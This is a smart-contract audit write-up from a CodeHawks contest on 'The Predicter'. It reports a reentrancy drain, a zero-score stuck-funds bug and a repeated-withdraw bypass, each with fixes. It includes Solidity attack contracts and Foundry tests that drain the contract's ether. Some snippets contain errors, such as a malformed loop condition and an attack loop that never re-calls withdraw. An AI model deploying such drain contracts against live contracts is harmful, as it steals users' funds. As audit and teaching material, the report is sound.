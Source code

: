 # [First Flight #20: The Predicter](https://codehawks.cyfrin.io/c/2024-07-the-predicter/) 

---

<details>

<summary> Findings </summary>

1. [`ThePredicter::cancelRegistration` is vulnerable to reentrancy](#h-1-thepredictercancelregistration-is-vulnerable-to-reentrancy)
2. [Not accounting for a possible score of 0 in `ThePredictor::withdraw` will lead to stuck funds](#m-1-not-accounting-for-a-possible-score-of-0-in-thepredictorwithdraw-will-lead-to-stuck-funds)
3. [Improper timestamp constraints in  `ScoreBoard::setPrediction` allows `ThePredictor::withdraw` to be called multiple times](#m-2-improper-timestamp-constraints-in--scoreboardsetprediction-allows-thepredictorwithdraw-to-be-called-multiple-times)

</details>

---


### [H-1] `ThePredicter::cancelRegistration` is vulnerable to reentrancy
#### Summary
Anyone can enter the protocol with `ThePredictor::register`. At this point, the user has a status of `Pending`. During the `Pending` phase, a user can be `Approved` by the organizer, or the user can exit the protocol using `ThePredicter::cancelRegistration`. If the user interacts with `cancelRegistration`, they have the opportunity to drain all funds with an attack contract.

#### Vulnerability Details
1. `ThePredicter::cancelRegistration` lacks reentry mitigation and it makes an external call to `msg.sender`
```js
function cancelRegistration() public {
	if (playersStatus[msg.sender] == Status.Pending) {
		(bool success, ) = msg.sender.call{value: entranceFee}("");
		require(success, "Failed to withdraw");
		playersStatus[msg.sender] = Status.Canceled;
		return;
	}
	revert ThePredicter__NotEligibleForWithdraw();
}
```
2. The user enters the protocol as a malicious contract...  `msg.sender` will call `cancelRegistration` whenever it receives ether
```js
receive() external payable {
	while (address(thePredicter).balance >= 0.04 ether) {
		thePredicter.cancelRegistration();
	}
}
```


<details>

<summary> Proof of Concept (attack contract)</summary>
1. The malicious user will become the owner of this contract on deployment. 
2. This contract will enter the protocol as a player.
3. This contract will call `cancelRegistration` initiating the reentrancy loop

```js
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

interface IThePredicter {
    function cancelRegistration() external;
}

contract CancelReenter {

    address private immutable owner;
    IThePredicter thePredicter;

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert();
        }
        _;
    }

    constructor(address _thePredicter) {
        owner = msg.sender;
        thePredicter = IThePredicter(_thePredicter);
    }

    function attack() public onlyOwner {
        thePredicter.cancelRegistration();
    }

    function withdraw() public onlyOwner {
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        if (!success) {
            revert();
        }
    }

    receive() external payable {
        while (address(thePredicter).balance >= 0.04 ether) {
            thePredicter.cancelRegistration();
        }
    }
}
```
</details>

<details>

<summary> Proof of Concept (foundry test)</summary>

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {ThePredicter} from "../../src/ThePredicter.sol";
import {ScoreBoard} from "../../src/ScoreBoard.sol";
import {CancelReenter} from "../../src/attack/Attack.sol";

contract ThePredicterTest is Test {
    ThePredicter public thePredicter;
    ScoreBoard public scoreBoard;
    CancelReenter public attack;

    address public organizer = makeAddr("organizer");
    address public stranger = makeAddr("stranger");

    uint256 public constant PICK_A_NUMBER = 16;
    address[] trusted = new address[](PICK_A_NUMBER);

    function setUp() public {
        vm.startPrank(organizer);
        scoreBoard = new ScoreBoard();
        thePredicter = new ThePredicter(
            address(scoreBoard),
            0.04 ether,
            0.0001 ether
        );
        scoreBoard.setThePredicter(address(thePredicter));
        vm.stopPrank();

        vm.startPrank(stranger);
        attack = new CancelReenter(address(thePredicter));
        vm.deal(address(attack), 1 ether);
        vm.stopPrank();
    }

    modifier participants() {
        for (uint256 i =0; i<< PICK_A_NUMBER_; i++) {
            string memory stringNumber = vm.toString(i);
            trusted[i] = makeAddr(stringNumber);
            vm.deal(trusted[i], 1 ether);
            vm.startPrank(trusted[i]);
            thePredicter.register{value: 0.04 ether}();
            vm.stopPrank();
        }
        _;
    }

    function test_Reenter() public participants{
        vm.startPrank(address(attack));
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        assertEq(address(thePredicter).balance, 0.68 ether);

        vm.startPrank(stranger);
        attack.attack();
        vm.stopPrank();

        assertEq(address(thePredicter).balance, 0 ether);
    }
}
```
</details>

#### Impact
This is a high impact vulnerability that can drain the protocol of all its funds. Any of the non 'trusted' participants can perform this attack. The smart contract does not need to perform any calculations and only needs to call `cancelRegistration` repeatedly until all funds are drained. 

#### Tools Used
Manual Review
Foundry

#### Recommendations
There are a few courses of action that can help mitigate reentrancy
1. Update state (CEI pattern) before making an external call
```diff
function cancelRegistration() public {
	if (playersStatus[msg.sender] == Status.Pending) {
+       playersStatus[msg.sender] = Status.Canceled;
		(bool success, ) = msg.sender.call{value: entranceFee}("");
		require(success, "Failed to withdraw");
-		playersStatus[msg.sender] = Status.Canceled;
		return;
	}
	revert ThePredicter__NotEligibleForWithdraw();
}
```
2. Consider using OpenZeppelin's [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol)
3. Adjust `ThePredicter::register` so contracts can't enter the protocol
```diff
function register() public payable {
+   uint256 size;
+	address caller = msg.sender;     
+	assembly {        
+		size := extcodesize(caller)    
+	}    
+	if (size != 0) {
+		revert ThePredicter__NoContractsAllowed;
+	}

	if (msg.value != entranceFee) {
		revert ThePredicter__IncorrectEntranceFee();
	}

	if (block.timestamp > START_TIME - 14400) {
		revert ThePredicter__RegistrationIsOver();
	}

	if (playersStatus[msg.sender] == Status.Pending) {
		revert ThePredicter__CannotParticipateTwice();
	}

	playersStatus[msg.sender] = Status.Pending;
}
```



### [M-1] Not accounting for a possible score of 0 in `ThePredictor::withdraw` will lead to stuck funds
#### Summary
The protocol makes the assumption that players will either have a positive or negative score when performing calculations in `ThePredicter::withdraw`. Specifically, this if check assigns a value to `withdraw::reward` :
```js
reward = maxScore < 0
	? entranceFee
	: (shares * players.length * entranceFee) / totalShares;
```
The check assumes that `maxScore` will either be less than or greater than 0. In a situation where all players end up with a score of 0, withdraw will return a `[FAIL. Reason: panic: division or modulo by zero (0x12)]` error due to `totalShares == 0`. 
Considering users should have their `entranceFee` returned if `maxScore < 0`, we can assume the intentions would be the same if `maxScrore == 0`. Not accounting for `maxScore == 0` will result in funds being stuck in the contract.

#### Vulnerability Details
In order for a player to be eligible for withdraw, they must pass this check:
```js
if (!scoreBoard.isEligibleForReward(msg.sender))
```

`ScoreBoard::isEligibleForReward` requires that a player make at least 1 prediction:
```js
function isEligibleForReward(address player) public view returns (bool) {
	return
		results[NUM_MATCHES - 1] != Result.Pending &&
		playersPredictions[player].predictionsCount > 1;
}
```

In `Predicter::withdraw`, a user's payout is determined by `uint256 totalShares = uint256(totalPositivePoints);`. The calculation is made in a for loop checking each players score
```js
for (uint256 i = 0; i < players.length; ++i) {
	int8 cScore = scoreBoard.getPlayerScore(players[i]);
	if (cScore > maxScore) maxScore = cScore;
	if (cScore > 0) totalPositivePoints += cScore;
}
```

`ScoreBoard::getPlayerScore` will either return `2` or `-1`:
```js
score += playersPredictions[player].predictions[i] == results[i]
	? int8(2)
	: -1;
```

This allows for `withdraw::totalPositivePoints` to equal 0. In those situations, `withdraw` will return a panic error. 

<details>

<summary> Proof of Concept (foundry test)</summary>
1. A max number of participants enter the protocol
2. Each participant predicts one match correctly and two incorrectly leading to a score of 0 for all players
3. `test_NormalWithdraw` will attempt to withdraw but result in a panic error

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {ThePredicter} from "../src/ThePredicter.sol";
import {ScoreBoard} from "../src/ScoreBoard.sol";

contract ThePredicterTest is Test {
    ThePredicter public thePredicter;
    ScoreBoard public scoreBoard;
    address public organizer = makeAddr("organizer");
    address public stranger = makeAddr("stranger");

    uint256 public constant PICK_A_NUMBER = 30;
    address[] players = new address[](PICK_A_NUMBER);

    function setUp() public {
        vm.startPrank(organizer);
        scoreBoard = new ScoreBoard();
        thePredicter = new ThePredicter(
            address(scoreBoard),
            0.04 ether,
            0.0001 ether
        );

        scoreBoard.setThePredicter(address(thePredicter));
        vm.stopPrank();
    }

    modifier participants() {
        for (uint256 i =0; i<< PICK_A_NUMBER; i++) {
            string memory stringNumber = vm.toString(i);
            players[i] = makeAddr(stringNumber);
            vm.deal(players[i], 1 ether);
            vm.startPrank(players[i]);
            thePredicter.register{value: 0.04 ether}();
            vm.stopPrank();

            vm.startPrank(organizer);
            thePredicter.approvePlayer(players[i]);
            vm.stopPrank();

            vm.startPrank(players[i]);
            thePredicter.makePrediction{value: 0.0001 ether}(
                1,
                ScoreBoard.Result.First
            );
            thePredicter.makePrediction{value: 0.0001 ether}(
                2,
                ScoreBoard.Result.Second
            );
            thePredicter.makePrediction{value: 0.0001 ether}(
                3,
                ScoreBoard.Result.Second
            );
        }

        vm.startPrank(organizer);
        scoreBoard.setResult(0, ScoreBoard.Result.First);
        scoreBoard.setResult(1, ScoreBoard.Result.First);
        scoreBoard.setResult(2, ScoreBoard.Result.First);
        scoreBoard.setResult(3, ScoreBoard.Result.First);
        scoreBoard.setResult(4, ScoreBoard.Result.First);
        scoreBoard.setResult(5, ScoreBoard.Result.First);
        scoreBoard.setResult(6, ScoreBoard.Result.First);
        scoreBoard.setResult(7, ScoreBoard.Result.First);
        scoreBoard.setResult(8, ScoreBoard.Result.First);
        vm.stopPrank();
        _;
    }

	function test_NormalWithdraw() public participants{
		vm.startPrank(address(players[1]));
		thePredicter.withdraw();
		vm.stopPrank();
		assertEq(players[1].balance, 0.9997 ether);
	}
    }
   ```



</details>

#### Impact
This is a high impact vulnerability. It can occur if no one gets any predictions correct or if the sum of predictions scores equals zero. The odds of this occurring will depend on how many players enter the protocol, how frequently the players will make predictions (as they are not obligated to predict every match), and the precision of their predictions.  The vulnerability will lead to a loss of all funds except for the (incorrectly calculated) prediction fees. 

#### Tools Used
Manual Review
Foundry

#### Recommendations
We need to adjust the logic in `Predicter::withdraw`
One fix would be to include 0 for `maxScore`:
```diff
+ reward = maxScrore <= 0
- reward = maxScore < 0
		? entranceFee
		: (shares * players.length * entranceFee) / totalShares;
```
Or account for `totalShares` being 0:
```diff
+ if (totalShares == 0) {
+	 reward = entranceFee;
+ } else {
+	reward = maxScore < 0
+	 ? entranceFee
+	 : (shares * players.length * entranceFee) / totalShares;
+ }
- reward = maxScore < 0
-		? entranceFee
-		: (shares * players.length * entranceFee) / totalShares;
```

### [M-2] Improper timestamp constraints in  `ScoreBoard::setPrediction` allows `ThePredictor::withdraw` to be called multiple times
#### Summary
After a user calls `ThePredictor::withdraw`, the user should receive their ether reward. They should not be able to call withdraw again. The user not being able to call `withdraw` again is meant to be handled by this external call:
```js
scoreBoard.clearPredictionsCount(msg.sender);
```
Before funds are distributed to the user `ScoreBoard::clearPredictionsCount` reduces the player's `predictionsCount` to 0. In order for a user to be able to call withdraw, they need to pass this check which requires a prediction count > 0:
```js
if (!scoreBoard.isEligibleForReward(msg.sender))
```
The malicious user is able to bypass this precaution by calling `ScoreBoard::setPrediction`. After making this call, the user can call `withdraw` and repeat this process until funds are drained from the contract.

#### Vulnerability Details
1. The malicious user has made some predictions and is eligible to receive ether from `ThePredicter::withdraw`
2. All users are able to call `ThePredicter::withdraw` after the `organizer` has called `ScoreBoard::setResult` for all matches
3. After calling `withdraw`, the malicious user calls `ScoreBoard::setPrediction` enabling them to call `withdraw` again
4. The malicious user can repeat this process and receive ether from the contract until the contract can no longer disburse the `withdraw::reward` amount 

Users are meant to interact with `ThePredciter::makePrediction`. This function has an important check 
```js
if (block.timestamp > START_TIME + matchNumber * 68400 - 68400) {
	revert ThePredicter__PredictionsAreClosed();
}
```
and makes external calls to the `ScoreBoard` contract:
```js
scoreBoard.confirmPredictionPayment(msg.sender, matchNumber);
scoreBoard.setPrediction(msg.sender, matchNumber, prediction);
```

The user should only be able to make a prediction for a certain game at a certain time before the game. The user's information is passed on to the `ScoreBoard` contract

An external call is made to `ScoreBoard::setPrediction`. This is a public function that the user can call with arbitrary parameters whenever they want. It is meant to be used to update previous predictions without having to pay a `predictionFee`. This check inside the function does not prevent function execution, it will only skip this particular block of code if time constraints are not met:
```js
if (block.timestamp <= START_TIME + matchNumber * 68400 - 68400)
playersPredictions[player].predictions[matchNumber] = result;
```

The rest of the function will execute regardless of the above timestamp check:
```js
playersPredictions[player].predictionsCount = 0;
for (uint256 i = 0; i < NUM_MATCHES; ++i) {
	if (
		playersPredictions[player].predictions[i] != Result.Pending &&
		playersPredictions[player].isPaid[i]
	) ++playersPredictions[player].predictionsCount;
}
```
Even though `ThePredicter::withdraw` uses `scoreBoard.clearPredictionsCount(msg.sender);` to clear the user's `predictionsCount`, the user can call `ScoreBoard::setPrediction` with arbitrary parameters to restore their prediction count. With the `predctionsCount` restored, the user can bypass the initial `if (!scoreBoard.isEligibleForReward(msg.sender))` check in `ThePredicter::withdraw` allowing them to repeat the process as many times as needed to extract the maximum amount from the contract  

<details>

<summary> Proof of Concept (foundry test)</summary>
This test can be added to the provided test suite
1. Three participants enter the protocol
2. All three participants are eligible to receive 0.04 ether
3. `stranger3` is able to take all the funds by calling `setPrediction`

```js
function test_MultipleWithdrawCalls() public {
        address stranger2 = makeAddr("stranger2");
        address stranger3 = makeAddr("stranger3");

        vm.startPrank(stranger);
        vm.deal(stranger, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        vm.startPrank(stranger2);
        vm.deal(stranger2, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();
        
        vm.startPrank(stranger3);
        vm.deal(stranger3, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        vm.startPrank(organizer);
        thePredicter.approvePlayer(stranger);
        thePredicter.approvePlayer(stranger2);
        thePredicter.approvePlayer(stranger3);
        vm.stopPrank();

        vm.startPrank(stranger);
        thePredicter.makePrediction{value: 0.0001 ether}(
            1,
            ScoreBoard.Result.First
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            2,
            ScoreBoard.Result.First
        );

        thePredicter.makePrediction{value: 0.0001 ether}(
            3,
            ScoreBoard.Result.First
        );
        vm.stopPrank();

        vm.startPrank(stranger2);
        thePredicter.makePrediction{value: 0.0001 ether}(
            1,
            ScoreBoard.Result.First
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            2,
            ScoreBoard.Result.First
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            3,
            ScoreBoard.Result.First
        );
        vm.stopPrank();

        vm.startPrank(stranger3);
        thePredicter.makePrediction{value: 0.0001 ether}(
            1,
            ScoreBoard.Result.First
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            2,
            ScoreBoard.Result.First
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            3,
            ScoreBoard.Result.First
        );
        vm.stopPrank();

        vm.startPrank(organizer);
        scoreBoard.setResult(0, ScoreBoard.Result.First);
        scoreBoard.setResult(1, ScoreBoard.Result.First);
        scoreBoard.setResult(2, ScoreBoard.Result.First);
        scoreBoard.setResult(3, ScoreBoard.Result.First);
        scoreBoard.setResult(4, ScoreBoard.Result.First);
        scoreBoard.setResult(5, ScoreBoard.Result.First);
        scoreBoard.setResult(6, ScoreBoard.Result.First);
        scoreBoard.setResult(7, ScoreBoard.Result.First);
        scoreBoard.setResult(8, ScoreBoard.Result.First);
        vm.stopPrank();

        vm.startPrank(organizer);
        thePredicter.withdrawPredictionFees();
        vm.stopPrank();

        vm.startPrank(stranger3);
        thePredicter.withdraw();
        scoreBoard.setPrediction(address(stranger3),1,ScoreBoard.Result.First);
        thePredicter.withdraw();
        scoreBoard.setPrediction(address(stranger3),1,ScoreBoard.Result.First);
        thePredicter.withdraw();
        vm.stopPrank();
        assertEq(stranger3.balance, 1.0797 ether);

        assertEq(address(thePredicter).balance, 0 ether);
    }
   ```
</details>

<details>

<summary> Proof of Concept (attack contract)</summary>
The user could also use an attack contract to programmatically exploit the contract as opposed to making manual calls of `ScoreBoard::setPrediction` 

```js
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

enum Result {
	Pending,
	First,
	Draw,
	Second
}

interface IScoreBoard {
    function setPrediction(address, uint256, Result) external;
}

interface IThePredicter {
    function withdraw() external;
}

contract ScoreBoardAttack {
    address private immutable owner;
    IScoreBoard scoreBoard;
    IThePredicter thePredicter;

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert();
        }
        _;
    }

    constructor(address _scoreBoard, address _thePredicter) {
        owner = msg.sender;
        scoreBoard = IScoreBoard(_scoreBoard);
        thePredicter = IThePredicter(_thePredicter);
    }

    function attack() public onlyOwner {
        thePredicter.withdraw();
    }

    function withdraw() public onlyOwner {
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        if (!success) {
            revert();
        }
    }

    receive() external payable {
        while (address(thePredicter).balance >= 0.01 ether) {
            scoreBoard.setPrediction(address(this),1,Result.First);
        }
    }
}
   ```
</details>

#### Impact
This is a high impact vulnerability. While `ScoreBoard::setPrediction` is meant to be public so users can make adjustments to predictions without paying fees, it lacks the same timestamp check as `ThePredicter::withdraw`. Because of this inconsistency, users can still call this function when they should not be able to. This allows a user to potentially drain the contract by calling withdraw multiple times. 
#### Tools Used
Manual Review
Foundry

#### Recommendations
Use a similar if check found in `ThePredicter::withdraw` with `ScoreBoard::setPrediction`:
```diff
+ if (block.timestamp > START_TIME + matchNumber * 68400 - 68400) {
+	revert ThePredicter__PredictionsAreClosed();
+ }
- if (block.timestamp <= START_TIME + matchNumber * 68400 - 68400)
playersPredictions[player].predictions[matchNumber] = result;
```
